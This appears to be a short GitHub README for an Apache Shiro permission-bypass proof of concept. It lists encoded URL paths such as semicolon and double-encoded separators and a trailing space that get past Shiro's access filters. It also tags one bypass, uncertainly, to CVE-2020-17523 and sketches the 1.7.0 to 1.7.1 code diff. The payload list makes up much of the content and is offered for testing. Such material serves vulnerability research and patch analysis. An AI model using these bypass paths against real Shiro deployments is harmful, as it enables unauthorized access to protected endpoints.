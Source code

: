 shiro权限绕过漏洞
PoC:
* /hello/a/
* /hello;/a/
* /hello/%253ba
* /hello/a%252fa
* /hello/%3ba

[analysis](http://x2y.pw/2020/08/24/shiro-%E6%9D%83%E9%99%90%E7%BB%95%E8%BF%87%E6%BC%8F%E6%B4%9E%E5%90%88%E9%9B%86/)  
downgrade shiro if u want to test these PoCs.

## update
### CVE-2020-17523(not sure)
`/test/?name=bypass`  
`/hello/%20` [idea from momosecurity](https://mp.weixin.qq.com/s/IOQ8fmaSq-aJeAGCogU98Q)

### simple analysis:
[diff 1.7.0 vs 1.7.1](https://github.com/apache/shiro/compare/shiro-root-1.7.0...shiro-root-1.7.1)  
2 interesting changes：  
1. [web/src/main/java/org/apache/shiro/web/filter/mgt/PathMatchingFilterChainResolver.java](https://github.com/apache/shiro/compare/shiro-root-1.7.0...shiro-root-1.7.1#diff-a724e4e5fde47ea6cc29803d5a4581a299b74f09d4ec5ce047e7d3e056116815L108)
![image](resource/PathMatchingFilterChainResolver.png)
   Trim `DEFAULT_PATH_SEPARATOR` directly in 1.7.0, but `pathMatches` the original `requestURI` and `requestURINoTrailingSlash`.
     

2. [web/src/test/java/org/apache/shiro/web/filter/PathMatchingFilterParameterizedTest.java](https://github.com/apache/shiro/compare/shiro-root-1.7.0...shiro-root-1.7.1#diff-2fc6eb083042ed6afebbe10bd6d2767c97ceeb3bdc50c0bdc9f372f1e7890d7aR87)
![image](resource/PathMatchingFilterParameterizedTest.png)
   Add some testcases about space. And in [core/src/main/java/org/apache/shiro/util/AntPathMatcher.java](https://github.com/apache/shiro/compare/shiro-root-1.7.0...shiro-root-1.7.1#diff-ce9ba3462f7d76e68c79bec5b9a3aea9bbd0d22ffb5e738f1b621cae49037b92R120), set another param of `StringUtils.tokenizeToStringArray(pattern, this.pathSeparator, false, true);`, trimTokens=false, ignoreEmptyTokens=true
